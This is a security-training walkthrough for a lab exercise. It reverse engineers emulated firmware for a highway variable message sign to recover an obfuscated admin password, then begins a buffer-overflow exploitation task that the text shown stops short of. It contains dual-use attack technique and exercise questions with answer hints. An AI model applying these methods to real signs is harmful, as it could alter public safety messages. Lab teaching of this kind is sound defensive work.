Author: Troy Shurtleff
Copyright 2019 BAE Systems
SPDX-License-Identifier: Apache-2.0

---
[TOC]

---
Approved for public release; unlimited distribution
Not export controlled per ES-FL-091619-0203

---

<div style="page-break-after: always;"></div>
# Reverse Engineering the Variable Message Sign

## Exercise Introduction
Your task today is to perform a security assessment on a [Variable Message Sign](https://en.wikipedia.org/wiki/Variable-message_sign) (VMS).  These signs are commonly used on roadways to communicate messages related to traffic conditions, accidents, roadwork, or emergency alerts.


[Wheresmysocks](https://en.wikipedia.org/wiki/User:wheresmysocks), [MN Changeable Message Sign](https://commons.wikimedia.org/wiki/File:MN_Changeable_Message_Sign.jpg), [CC BY 3.0](https://creativecommons.org/licenses/by/3.0/legalcode)

These signs are used to communicate important information to the public and are part of the larger IoT-enabled transportation infrastructure.  Your customer is concerned that attackers may be able to violate the confidentiality, integrity, and/or availability of the signs to alter the messages displayed to the public, use the signs as a pivot point to attack other parts of the IoT infrastructure, or cause any other number of adverse impacts.

Your customer provided you with the firmware for their VMS system and a copy of their build environment, which uses [Buildroot](https://buildroot.org/).  The firmware is built on a tailored open source Linux distribution and your customer has added a proprietary application, `signApp`, that implements the VMS functions.

Your customer has not provided you with the source code for their proprietary VMS application software (i.e. the `signApp` binary).  Your customer has also not provided you with the default password to authenticate to the VMS Administrative Interface.  The customer feels their developers implemented clever measures to secure the default VMS password and want to understand the effectiveness of their protections.

Your colleague prepared a Reverse Engineering Virtual Machine (VM) preloaded with a set of useful tools for this type of security assessment.  These tools include Ghidra, an open source software reverse engineering framework released by the National Security Agency (NSA), and QEMU, an open source machine emulator supporting a variety of processor architectures.  Your colleague also pre-loaded the firmware from the customer and configured it for full-system emulation on the Reverse Engineering VM. 

The primary objectives identified by your customer are:
1. Determine if it is possible to recover the default password for the VMS from the firmware provided with the system.
2. Identify and report at least one security vulnerability in the sign that would allow an attacker to compromise the confidentiality, integrity, and/or availability of the system via a network-based attack vector.  Deliver a proof-of-concept exploit for any identified vulnerabilities.
### Instructions for Completing the Exercise
This exercise is very much structured like a walk-through.  You will need to provide some artifacts (e.g. text-based answers and screenshots) to demonstrate that you completed the exercise and drew the correct conclusions.  You will not be able to produce these artifacts unless you follow along and do all the steps yourself.

You will find several questions throughout this document that you need to respond to with a text-based answer or a screenshot.  In all cases, these questions are on a line by themselves and begin with "***Exercise***" in bold italics.  A companion document is provided as an aid that contains only the questions.

When a screenshot is specifically requested please provide a screenshot and not just a text-based response.  When a text-based response is requested please provide a text-based response.  You may supplement either type of response with additional text or screenshots if you feel it is necessary. 

### About Your Reverse Engineering VM

Your Reverse Engineering VM is based on an Ubuntu 18.04 LTS Linux distribution.  The VM is pre-loaded with all of the tools you will need to complete this exercise.  All of the additional tools added are free and open source software.  To login to the VM use the username `student` and the password `student`.

To load the Reverse Engineering VM in your environment you will need VirtualBox 6.0 which you can obtain from [https://www.virtualbox.org/](https://www.virtualbox.org/).  To import the VM into VirtualBox choose `File` &#8594; `Import Appliance...` from the Oracle VM VirtaulBox Manager window and follow the onscreen instructions.  You should not need to make any configuration changes to the VM configuration.  The VM's network adapter is disabled by default.  You can enable it if you choose, but it is not necessary to complete the full exercise.  If you are using a computer with a very high resolution display you may need to adjust the `Scale Factor` display setting for the VM (consider a setting of 200%).  Adjusting the `Scale Factor` may improve your mouse integration in situations where you have a very high resolution display.

Some files and directories of interest on your provided reverse engineering VM are outlined below.

```
.
├── home
    └── student
        ├── buildroot-2019.02.4 ← VMS build environment from your customer
        │   └── output
        │       └──  images ← Directory containing original copies of the VMS firmware (do not modify these, but you can restore your working copes from them)
        │           ├── rootfs.ext2
        │           ├── versatile-pb.dtb
        │           └── zImage       
        ├── .ghidra ← Directory containing Ghidra tool state
        ├── ghidra_9.0.4 ← Ghidra installation directory
        ├── vms_ghidra ← Directory for your Ghidra project (initially empty)
        └── vms_target ← Directory containing working copies of the VMS firmware
            ├── rootfs.ext2
            ├── versatile-pb.dtb
            └── zImage
```
Tip: As you familiarize yourself with Ghidra you may get the user interface configuration in a non-ideal configuration (e.g. the window configuration may not be what you want or started with initially).  To restore the Ghidra state to the defaults and remove any tool preferences you configured you may safely delete or backup the `~student/.ghidra` folder.  This is a hidden folder so you will need to run a command like `ls -al`  to see it in the listing (note the `-a` argument).

### About the Variable Message Sign Hardware

The computing platform for your customer's VMS system is based on the [ARM926EJ-S processor](http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0198e/Cacheeja.html ) which implements the ARM architecture v5TEJ.  This processor supports the 32-bit ARM and 16-bit Thumb instruction sets.  The ARM architecture is widely used in a variety of computing systems and is especially well suited for Internet-of-Things applications.

For this assignment we use the "[versatilepb](https://wiki.qemu.org/Documentation/Platforms/ARM )" machine target available via the off-the-shelf QEMU emulation platform.

### Demonstration of the Administrative Interface for the Variable Message Sign

The VMS always displays a message to the public that typically contains information about traffic conditions, accidents, roadwork, or emergency alerts.  The message can be viewed and modified remotely via a network accessible administrative interface.  Modification of the message requires a correct password to be provided.

The server on the VMS for the administrative interface listens on TCP port 5555.

Upon connecting to the server the current message is displayed as shown below.  The default message is "Changing lanes? Use yah blinkah."

```
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: 
```

> The default message is from a 2014 [safety reminder](https://blog.mass.gov/transportation/massdot-highway/massdot-changing-lanes-use-yah-blinkah/) posted by the Massachusetts Department of Transportation.

If you enter an incorrect password, a message is displayed that says "Your password is incorrect." and you are prompted to enter the password again.

```
password: dunno

Your password is incorrect.

password: 
```

If you enter the correct password, a message is displayed that says "You entered the correct password!" and you are prompted to enter a new message.  In this example, the new message is "CAUTION! ZOMBIES! AHEAD!!!"  After changing the message the server terminates the connection.  Note that the correct password is not `<REDACTED>`.

```
password: <REDACTED>

You entered the correct password!

Enter the new message of the day: CAUTION! ZOMBIES! AHEAD!!!

The message of the day is now: CAUTION! ZOMBIES! AHEAD!!!
```

> This example message is inspired by a 2009 [hack of two variable message signs](https://www.wired.com/2009/02/austin-road-sig/) in Austin Texas.  We do not condone this type of illegal activity, but the attack does illustrate the vulnerability of this type of infrastructure and the potential impacts to the public.

Upon reconnecting to the server the the updated message is displayed as shown below.

```
The message of the day is: CAUTION! ZOMBIES! AHEAD!!!

If you enter the correct password you can change the message of the day.

password: 
```

### Interact with the Variable Message Sign In Your Environment

#### How to Power On the Variable Message Sign

First, you will need to boot the target device using the QEMU ARM emulator as shown below.

```
student@revm:~$ cd ~/vms_target/
student@revm:~/vms_target$ qemu-system-arm -M versatilepb -kernel zImage -dtb versatile-pb.dtb -drive file=rootfs.ext2,if=scsi,format=raw -append "root=/dev/sda console=ttyAMA0,115200 norandmaps" -serial stdio -net nic,model=rtl8139 -net user,hostfwd=tcp:127.0.0.1:5555-:5555,hostfwd=tcp:127.0.0.1:1337-:1337
```
The command above starts an ARM-based system with the customer-provided kernel (`zImage`), device tree binary (dtb) (`versatile-pb.dtb`), and filesystem (`rootfs.ext2`).  These files are all located in the `/home/student/vms_target` directory on your Reverse Engineering VM.  The device tree binary file describes the hardware components of the emulated system.

The supplied `hostfwd` arguments set up the following traffic forwarding rules:

* Traffic arriving at the host's TCP port 5555 is forwarded to TCP port 5555 on the guest

  * This port is used the access the VMS Administrative Interface
* Traffic arriving at the host's TCP port 1337 is forwarded to TCP port 1337 on the guest
  * We will use this port as part of the exploit we develop during Objective #2

#### How to Power Off or Reboot the Variable Message Sign

Before we go too much further, let's review how to shutdown and restart the emulated VMS system because you will need to do that later in this assignment.  At the end of the boot process you will observe a login prompt that looks like the one below.

```
Welcome to the Variable Message Sign!
vms login: 
```

You can login to console of the device with the username `root`.  The `root` account does not have a password so you will immediately be dropped to a shell prompt (the `# ` is the shell prompt).  The console will look like what you see below.

```
Welcome to the Variable Message Sign!
vms login: root
# 
```

Over time some background processes running on the VMS will likely print output to the console.  You can press the <kbd>Enter</kbd> key to clear the console and see a login or shell prompt again (depending on whether or not you have logged in).

To power off the emulated VMS system type the `poweroff` command at the shell prompt  The output below shows the `poweroff` command being run and the output that follows.

```
Welcome to the Variable Message Sign!
vms login: root
# poweroff
# Stopping signApp: FAIL
Stopping dropbear sshd: OK
Stopping network: OK
Saving random seed... done.
Stopping klogd: OK
Stopping syslogd: OK
umount: devtmpfs busy - remounted read-only
EXT4-fs (sda): re-mounted. Opts: (null)
The system is going down NOW!
Sent SIGTERM to all processes
Sent SIGKILL to all processes
Requesting system poweroff
sd 0:0:0:0: [sda] Synchronizing SCSI cache
reboot: System halted
```

When you see the `reboot: System halted` output you can press <kbd>Ctrl</kbd> + <kbd>C</kbd> to return to the terminal command prompt.  Use the left <kbd>Ctrl</kbd> key because the right <kbd>Ctrl</kbd> key is most likely mapped as the Host Key for VirtualBox.

To restart the emulated VMS you can press the up arrow key to see the previous command in your history (this should be the `qemu-system-arm` command we ran earlier).

Alternatively, you can run the `reboot` command at the VMS shell prompt to reboot the VMS.  

Make sure you run `poweroff` or `reboot` at the shell prompt for the VMS (the prompt will look like `# `).  Otherwise, you will poweroff or reboot your Reverse Engineering VM.

#### Accessing the Variable Message Sign Administrative Interface

To access the VMS Administrative Interface you will need to connect to the device using a client that supports interactive bidirectional text-based communication.  For now, we will use the telnet client that is already installed on your Reverse Engineering VM.  Below is an example interaction with the emulated device.  You should repeat these steps yourself on your Reverse Engineering VM, but do them in a different terminal window than the one you used to boot the target device in the QEMU emulator.  Make sure the emulated VMS system is powered on before you try to interact with it. 

```
student@revm:~$ telnet 127.0.0.1 5555
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
The message of the day is: Changing lanes? Use yah blinkah.

If you enter the correct password you can change the message of the day.

password: 123456

Your password is incorrect.

password: password

Your password is incorrect.

password: system

Your password is incorrect.

password: ^]
telnet> quit
Connection closed.
student@revm:~$ 
```
Note: To terminate your interaction with the server you will need to  press the <kbd>Ctrl</kbd>+<kbd>]</kbd> keys simultaneously (the telnet client identifies this key combination as the escape character).  Use the left <kbd>Ctrl</kbd> key because the right <kbd>Ctrl</kbd> key is most likely mapped as the Host Key for VirtualBox.  After pressing <kbd>Ctrl</kbd>+<kbd>]</kbd> you need to type `quit` to terminate the connection and exit the telnet client.
> The example passwords used above are taken from the [password list](https://www.grahamcluley.com/mirai-botnet-password/) included in the original Mirai source code.  Leaving weak or default passwords on IoT devices presents obvious security risks.
## Objective #1 (Recover the Default Password)

We will hypothesize that the developers of the VMS hard-coded the password for the `signApp` in the binary.  If so, it should be trivial to recover the password using basic reverse engineering tools and techniques.

### Mount the Provided VMS Filesystem

Before we launch Ghidra, let's mount the customer provided [ext2](https://en.wikipedia.org/wiki/Ext2) filesystem so we have access to the `signApp` binary.  Mount the filesystem by running the following command.
```
student@revm:~$ sudo mount -t ext2 -o ro ~/vms_target/rootfs.ext2 /mnt
```
Later you will be able to unmount it by running the `sudo umount /mnt` command.

Examine the top-level structure of the mounted filesystem using the `tree` command as shown below.
```
student@revm:~$ tree -L 1 /mnt/
/mnt/
├── bin
├── dev
├── etc
├── lib
├── lib32 -> lib
├── linuxrc -> bin/busybox
├── lost+found
├── media
├── mnt
├── opt
├── proc
├── root
├── run
├── sbin
├── sys
├── tmp
├── usr
└── var

17 directories, 1 file
student@revm:~$ 
```
We observe that the structure of the mounted filesystem appears to be aligned with the Linux [Filesystem Hierarchy Standard (FHS)](https://en.wikipedia.org/wiki/Filesystem_Hierarchy_Standard).

At this point you can find the `signApp` binary at `/mnt/usr/sbin/signApp`.  Some attributes of the file are shown below in the output from the file command.
```
student@revm:~$ file /mnt/usr/sbin/signApp 
/mnt/usr/sbin/signApp: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, not stripped
```

### Create a Ghidra Project

Launch Ghidra by running the following command.  Alternatively, there is a Ghidra shortcut in the favorites bar on the left side of the Reverse Engineering VM.
```
student@revm:~$ ~/ghidra_9.0.4/ghidraRun
```
You should see the Ghidra project window as shown below.



In the main Ghidra window choose `File` &#8594; `New Project...`

Select the "Non-Shared Project" project type.

Enter `/home/student/vms_ghidra` as the Project Directory and `vms_ghidra` as the Project Name as shown below.  Note that the `~student/vms_ghidra` directory is initially empty in the provided Reverse Engineering VM.


After entering the Project Directory and Project Name click the `Finish` button.

In the main Ghidra window choose `File` &#8594; `Import File...`.  Then, browse to the `signApp` binary located in `/mnt/usr/sbin`.  After selecting the binary click the `Select File To Import` button.

Ghidra will display a dialog with some attributes of this file that match what we observed when we ran the `file` utility earlier (i.e. this is an ELF format for a 32 bit ARM little endian architecture).  Click the `Options...` button in this dialog.


In addition to the selected defaults check the `Load External Libraries` checkbox and click the `Edit Paths` button next to it.


In the Edit Library Paths dialog remove all of the existing paths by clicking the button with the red `X`.  Next, add the `/mnt/usr/lib` then the `/mnt/lib` directories by clicking the button with the green `+`.  When you are finished the dialog should be in the state shown below.  When it does, click the `OK` button in the Edit Library Paths Dialog.



To proceed with the import click the `OK` button in the Options dialog then the `OK` button in the Import dialog.

When the import is complete you should see an Import Results Summary dialog that resembles the one below.  Review the contents then click the `OK` button to proceed.



Now your Ghidra project window should look like the one shown below.  Note that two flies were imported `libc.so.0` and `signApp`.  The libc library is a shared object library used by the `signApp` and loaded at runtime.  We will discuss libc more later.



### Reverse Engineer the signApp Binary to Recover the Password

Start analyzing the `signApp` binary by double clicking on it in the Project Window.  The CodeBrowser will launch and display a message that says "signApp has not been analyzed.  Would you like to analyze it now?"  Click `Yes`.



An Analysis Options dialog will be shown.  For now, leave the default selection of analyzers and click the `Analyze` button.


When the analysis completes you will see a CodeBrowser window that resembles the one shown below. 


Remember, our hypothesis is that the developers of the VMS hard-coded the password for the `signApp` in the binary.  Ghidra includes an 'ASCII Strings' analyzer.  Let's start by examining the strings identified by that analyzer to see if we can find the password.  From the menu at the top choose `Window` &#8594; `Defined Strings`.

In the Defined Strings window you will see several strings the analyzer uncovered.  A portion of the results are shown below.  You will several strings that match ones we saw in the initial demonstration of the VMS interface and your own interactions with it.  The strings include the password prompt (`password:`), the default message of the day (`Changing lanes? Use yah blinkah.`), and the message displayed upon entering the incorrect password (`Your password is incorrect.`).  Note that the table includes the location of where the string is in the binary, and when you click on a string the cursor position in the Listing window moves to that location.  Examine some of the other strings to see if you can find the password among them.  You can try interacting with the VMS service again to test your candidate passwords.


Hint: You won't find the password in this list of strings.

We will not abandon our hypothesis that the password for the `signApp` is somehow embedded in the binary.  Presumably, there is a function that checks the user supplied password against the correct password.  If we can find that function we may be able to reverse engineer how the check is performed and determine the password.

Ghidra also includes a 'Function Start Search' analyzer.  We can examine the list of functions identified by Ghidra to find one that may be responsible for checking the password.  Recall that the symbols were not stripped from the binary so several of these functions will likely have names associated with them.  We can draw some conclusions about what the functions do from their names.  From the menu at the top choose `Window` &#8594; `Functions`.  Note that you can also see the function names in the Symbol Tree view in the middle left of the Code Browser window.  A portion of the function list is shown in the screenshot below.


In the screenshot above, the selected function is called `change_message` and we might conclude that it does something to process a change to the message of the day after the correct password is provided by the client.

Also, observe that several of these functions are '[thunk](https://en.wikipedia.org/wiki/Thunk#Overlays_and_dynamic_linking)' functions (i.e. you will see 'thunk' in the function signature).  In this context, the thunk functions are used to call other functions in the shared object libraries that are loaded at runtime (e.g. the C standard library a.k.a. libc).  We can safely assume these thunk functions do not implement the password checking behavior we are looking for.  Ghidra provides a filtering capability we can use to filter out the uninteresting thunk functions.  In the lower right of the Functions window is a `Create Column Filter` button.  Click this button to load the 'Functions Column Filter' dialog.  Create a filter condition where the `Function Signature` column `Does Not Contain` the value `thunk`.  After you enter the filter condition as shown below, click the `Apply Filter` button then the `Dismiss` button.



The filter will narrow the list of functions significantly.  Review the list and select the function that most likely implements the password checking behavior.

Hint: The function you are looking for is called `check_password`.  When you click the function in the Functions view the _machine code_ and _assembly code_ associated with it is displayed in the Listing view.

**_Exercise: Provide a screenshot showing the entry point of the 'check_password' function in the Listing view._**

The Listing view shows several pieces of information to aid our reverse engineering efforts.  This information includes the following from left to right.
* The virtual memory address of the data or instructions
* The byte values of the data or instructions
	* If those bytes can be disassembled to valid instructions they are grouped based on the length of the instruction
		* For ARM, instructions are either four bytes long (ARM state) or two bytes long (Thumb state)
		* In this case, the bytes represent the _machine code_ instructions
	* If the bytes can not be disassembled to valid instructions they will be shown in raw form
		* Bytes appearing to represent strings are grouped together and the sting value is shown to the right
* The _assembly code_ instructions or defined data (e.g. string values, pointer values)
  * The assembly code is annotated to include helpful information such as cross references, variable names, function names, and string values.

In addition to representations of instructions and data in the Listing view, Ghidra also provides a powerful decompiler.  The decompiler produces a C language representation of the program derived from the binary representation.  This conversion from the binary representation to the C language representation is not one-to-one.  In other words, the decompiled representation will most likely not match the original source code exactly.  Regardless, the decompiled representation is often quite helpful and where we will begin our efforts to reverse engineer the `check_password` function.

Below, is a walkthrough of a reverse engineering analysis of the `change_message` function as an example.  You are asked some exercise questions along the way.  Note that the questions in this section are related to the `check_password` function.  In other words, it is your task to reverse engineer the `check_password` function.

The original decompilation of the `change_message` function produced by Ghidra is shown below.  



**_Exercise: Provide a screenshot showing the original decompilation of the 'check_password' function performed by Ghidra._**

Observe that we have the original name of the function (`change_message`) and the original name of a global variable (`message_of_the_day`).  These are the names given by the developer in the original source code and they are embedded in the binary as symbols.  We already tentatively concluded based on the function name that this function processes the changing of the message of the day.  Observing the `message_of_the_day` name for a global variable supports our conclusion about the function purpose.  This also tells us that the value of the message of the day string is most likely stored as a global variable in the process memory.

> In general, it is a good practice to strip these symbol names from the binary to complicate reverse engineering efforts; however, do not expect this practice to deter a motivated reverse engineer.  Stripping the symbols will also decrease the size of your binary, size could be an important factor depending on your target IoT device.

**_Exercise: Do you observe any global variable names in the 'check_password' function?  If so, what are they called?  What data do you think might be stored in these global variables (In other words, what are they used for)?_**

Note that you can single click on lines of C code or variable names in the Decompile view and the corresponding assembly instructions or data is highlighted in the Listing window.  The reverse is also true.  Also, double clicking on a name in the Decompile or Listing views navigates the offset in the Listing view to where the item is defined.  This is especially helpful for global variable and function names.  For example, try double clicking on the  `message_of_the_day` global variable in the Decompile view while looking at the `change_message` function.  After double clicking you can observe the byte value representation and the string representation of the default value in the listing view.

In addition to the function and global variable names in the `change_message` we see the values of several strings.  We can draw additional conclusions about what function is doing from the values of these strings.

Observe that Ghidra assigns names to function arguments and local variables for us.  While there is a convention for how these names are assigned the names do not necessarily help us understand what the function is doing or what values the variables represent.  In the original source code, the developer probably assigned more descriptive names to the variables, but those names are lost during the build process.  When we manually analyze the function we can assign more meaningful names to the variables as we figure out what values they represent.  To rename a variable either right click on it then select `Rename Variable` from the pop-up menu or highlight it by left clicking on it and press the <kbd>L</kbd> key.

Below is a post analysis view of the `change_message` function.  For example, the integer argument to the `change_message` function is passed to the write and read library calls.  Because the program is doing network I/O we conclude this argument represents a socket file descriptor so we rename it to `socket_file_descriptor` for clarity.  We rename other local variables in a similar way.



**_Exercise: Analyze the Ghidra's decompilation of the 'check_password' function and rename some of the local variables so the names reflect more accurately how they are used.  Provide a screenshot of your updated function._**

Hint: There are some similarities between the `check_password` and `change_message` functions.  Feel free to use the analysis of the `change_message` function as a guide.

Recommendation: Local variables used as loop counters may be the easiest to identify.  Treat those as low hanging fruit and rename them first.  Use common programming conventions to name these loop counters (e.g. call them `i`, `j`, `k`, ...).

At this point you probably recognize that the password for the `signApp` is embedded in the binary, but in an encrypted form.  The `check_password` function decrypts the correct password before comparing it to the password supplied by the client.

***Exercise: Describe the algorithm used to decrypt the correct password for the `signApp`.***

***Exercise: What are the byte values, in hexadecimal, for each character in the ciphertext password?***

***Exercise: What is the key used for decrypting the ciphertext password?***

***Exercise: What is the ASCII character representation of the plaintext password?***

Hint: The plaintext password is a word you can find in the [Scrabble dictionary](https://scrabble.hasbro.com/en-us/tools#dictionary).  The word is worth 13 points.

After you recover the plaintext password you can connect to the VMS Administrative Interface and use it to change the message of the day.  Note that the message of the day will revert to the default, `Changing lanes? Use yah blinkah.`, after you restart the VMS system.

Congratulations, if you reached this point you accomplished objective #1 for your customer!

## Objective #2 (Identify and Report a Security Vulnerability)

A common software weakness involves a situation where it is possible for data to be written outside the bounds of an allocated buffer (see [CWE-787: Out-of-bounds Write](https://cwe.mitre.org/data/definitions/787.html)).  For example, if a program allocates a buffer (e.g. an array) large enough to accomodate 16 bytes of data and allows more than 16 bytes of data to be written into that buffer that means some other memory allocated to other data (e.g. variables, saved register values) can be overwritten.  These out-of-bound write weaknesses are commonly exploited to violate the security of target systems (see [CAPEC-100: Overflow Buffers](https://capec.mitre.org/data/definitions/100.html)).  Buffer overflow vulnerabilities can pose a severe risk because they often allow an attacker to take control of program execution (via the `pc` register in ARM or the `RIP` register in x86 64-bit architectures) and/or change the contents of memory to enable execution of arbitrary code.

To accomplish objective #2 for our customer we will look for a buffer overflow vulnerability in the VMS Administrative Interface that we can exploit over the network to execute arbitrary code on the VMS.  An attack like this presumes there are no other interfaces exposed over the network (e.g. an SSH server, web portal).

### Perform Simple Fuzzing to Identify a Defect in the signApp Service

